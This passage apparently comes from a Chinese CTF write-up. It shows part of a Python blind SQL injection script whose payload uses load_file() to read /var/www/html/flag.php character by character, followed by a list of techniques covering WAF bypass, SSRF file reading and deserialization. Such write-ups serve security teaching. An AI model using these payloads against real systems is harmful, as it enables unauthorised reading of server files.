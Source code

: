 ~~~
            'no':f'0^(ascii(substr((load_file("/var/www/html/flag.php")),{i},1))={ord(a)})'
        }
        rep= requests.post(url=url,params=params)
        print(params)
        # print(rep.text)
        if 'a.html' in rep.text:
            temp+=a
            print('[+] output: '+temp)
            break
```
![My helpful screenshot](/assets/img/2019-11-28-01/6.png)

## 知识点:
1.扫描网站目录,是否存在源码泄露(+1)

2.sql手注 参考:/看过的文档/SQL注入使用详细总结（由浅及深，持续更新中） - MX的博客 - CSDN博客.html

3.waf绕过union select的过滤

4.limit的使用

5.ssrf读取本地文件,利用curl对file协议进行读取(这里的curl支持file和http协议)

6.序列化与反序列化--unserialize和serialize

7.load_file()读取文件

8.sql注入之布尔盲注(+1)